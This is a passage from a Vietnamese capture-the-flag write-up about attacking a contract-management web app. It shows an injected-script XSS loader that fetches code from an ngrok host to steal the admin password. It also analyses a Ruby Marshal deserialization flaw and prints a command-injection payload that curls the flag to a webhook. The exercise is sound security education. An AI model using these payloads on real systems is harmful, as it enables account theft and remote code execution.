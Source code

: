 ![image](https://hackmd.io/_uploads/B1TjKkoSyx.png)

ok ngon rồi thì mình sẽ đưa lên ngrok để fetch và chỉnh lại bio lại như sau để contract_manager vào /setting.ico và fetch
                                   
`s=document.createElement('script');s.src='https://c1aa-118-69-116-88.ngrok-free.app/';document.body.appendChild(s);`

![image](https://hackmd.io/_uploads/rJh-xeirJe.png)
 
Và ta có thể dễ dàng lấy được mật khẩu của admin
                                   
![image](https://hackmd.io/_uploads/H1oTklsS1l.png)

Khi mình vào user admin thì có các trang như sau
                                   
![image](https://hackmd.io/_uploads/HkS7exiB1l.png)

Trang Manage templates dùng để tạo templates và quản lý 
                                   

                                   
![image](https://hackmd.io/_uploads/r1PSgxsSkl.png)

Phân tích code của trang này xí 
                                   
```ruby
def create
    user_data = current_user unless user_data && user_data['id']
    flash[:alert] = "User must be logged in to create a template."
    redirect_to login_path and return
end

serialized_content = Marshal.dump(params[:content])
response = HTTP.auth("Token #{session[:token]}")
    .post("http://localhost:8080/api/contract_templates/", json: {
        data: serialized_content,
        user_id: user_data['id']
    }.merge(params.to_unsafe_h))

if response.status.success?
    flash[:notice] = "Template created successfully."
    redirect_to contract_templates_path
else
    flash.now[:alert] = "Failed to create template."
    render :new
end
                
```

Ở đây lỗi ở hàm merge. Nếu chúng ta đưa vào data, nó sẽ tiến hành deserialized nên mình có thể truyền vào một cái lệnh đã được serialized qua đó RCE được https://github.com/GitHubSecurityLab/ruby-unsafe-deserialization/blob/main/marshal/3.4-rc/marshal-rce-ruby-3.4-rc.rb
Ta có thể sử dụng payload sau để cat được flag
`zip_param_to_execute = "-TmTT=\"$(curl https://WEBHOOK-URL/flag=`cat /flag.txt`)\"any.zip"`
Tiến hành tạo gadget chain   
![image](https://hackmd.io/_uploads/ry5cCesBye.png)
